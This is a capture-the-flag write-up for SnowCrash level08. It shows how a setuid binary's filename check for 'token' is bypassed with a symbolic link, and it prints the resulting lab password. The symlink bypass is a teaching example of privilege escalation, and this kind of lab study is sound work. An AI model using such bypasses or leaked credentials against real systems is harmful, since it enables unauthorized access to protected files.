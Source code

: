 # Level08

## Research

```bash
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

```bash
level08@SnowCrash:~$ ./level08
./level08 [file to read]

level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

```bash
level08@SnowCrash:~$ strings level08
[...]
printf
strstr
read
open
[...]
token
```

We can see that the programs calls strstr and that 'token' is hard written in the code.
Maybe it won't read anyfile with 'token' in the name.

```bash
level08@SnowCrash:~$ echo 'hello' > /tmp/hello
level08@SnowCrash:~$ ./level08 /tmp/hello
hello
level08@SnowCrash:~$ ./level08 /tmp/cctoken
You may not access '/tmp/cctoken'
```
The theory seems true: the program will open, read and print anyfile which doesn't have token in its name.

How to make it access and read `token` through a file not named 'token'?

## Solution

https://techterms.com/definition/symbolic_link

We can use symbolic links: </br>

```bash
level08@SnowCrash:~$ ln -s ~/token /tmp/link
level08@SnowCrash:~$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean
```
And then connect to level09
```bash
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX
```
